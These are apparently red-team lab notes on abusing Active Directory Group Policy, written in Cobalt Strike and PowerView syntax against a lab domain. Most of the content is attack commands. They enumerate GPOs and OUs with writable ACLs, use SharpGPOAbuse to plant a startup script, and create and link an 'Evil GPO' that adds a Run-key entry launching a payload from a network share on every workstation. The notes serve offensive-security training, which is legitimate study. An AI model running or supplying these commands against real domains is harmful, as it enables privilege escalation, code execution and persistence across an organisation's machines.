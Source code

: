 # Group Policy Notes

**Modifying Existing GPO**

Tools:
[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

steps:
1. enum all GPO's in the domain,
2. check ACL of each one
3. filter for which a principal has modify privileges
   - CreateChild
   - WriteProperty
   - GenericWrite
4. filter any legitimate principals including SYSTEM, DA's or EA's

```
powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
powershell Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
powershell ConvertFrom-SID <SID>
powershell Get-DomainOU -GPLink "{<GPO SID>}" | select distinguishedName
powershell Get-DomainComputer -SearchBase "<GPO distinguishedname>" | select dnsHostName
can manually change these files in this path:
ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{<GPO>}
or using SharpGPOAbuse:
execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\dc-2\software\dns_x64.exe" --GPOName "Vulnerable GPO"
```

the victim would need to ```run gpupdate /force``` then reboot to apply


**Create and Link a GPO**

Finding GPO's that are stored in System Policies that can create new GPOs in the domain with the "Create GroupPolicyContainer objects" using Powerview by looking for those that have "CreateChild" rights on the "Group-Policy-Container", and then resolving their SIDs to readable names.
```
powershell Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
```

need to also find those that are linked to an OU for abuse
```
powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl
```

Using Powershell RSAT modules to make changes, only usually found on management workstations
```
powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
powershell New-GPO -Name "Evil GPO"
powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\dc-2\software\dns_x64.exe" -Type ExpandString
powershell Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
```
